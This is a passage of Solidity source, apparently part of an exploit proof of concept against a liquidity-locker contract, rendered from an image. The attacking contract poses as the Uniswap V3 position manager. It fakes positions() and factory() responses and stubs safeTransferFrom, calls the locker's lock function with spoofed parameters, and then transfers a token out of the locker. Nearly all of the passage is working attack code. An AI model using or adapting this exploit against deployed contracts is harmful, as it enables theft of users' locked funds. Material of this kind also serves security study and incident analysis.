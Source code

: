 ```solidity

            bytes[] memory r = new bytes[](0);

            
            LockParams memory lock = LockParams({
                nftPositionManager: INonfungiblePositionManager(address(this)),
                nft_id: 24,
                dustRecipient: address(this),
                owner: address(this),
                additionalCollector: address(this),
                collectAddress: address(this),
                unlockDate: block.timestamp + 1,
                countryCode: 0,
                feeName: "DEFAULT",
                r: r
            });
            v.lock(lock);
            u.transferFrom(address(v), address(this), ctid);
        }

        console.log("balanceOf", u.balanceOf(address(v)));
    }

    function safeTransferFrom(address from, address to, uint256 tokenId) public {
        
    }

    function positions(uint256 tokenId)
        external
        view
        returns (
            uint96 nonce,
            address operator,
            address token0,
            address token1,
            uint24 fee,
            int24 tickLower,
            int24 tickUpper,
            uint128 liquidity,
            uint256 feeGrowthInside0LastX128,
            uint256 feeGrowthInside1LastX128,
            uint128 tokensOwed0,
            uint128 tokensOwed1
        )
    {
        nonce = 0;
        operator = address(this);
        token0 = address(0xC36442b4a4522E871399CD717aBDD847Ab11FE88);
        token1 = address(this);
        fee = 0;
        tickLower = 0;
        tickUpper = 0;
        liquidity = 0;
        feeGrowthInside0LastX128 = 0;
        feeGrowthInside1LastX128 = 0;
        tokensOwed0 = 0;
        tokensOwed1 = 0;
    }


    function factory() external view returns (address) {
        return address(this);
    }
```
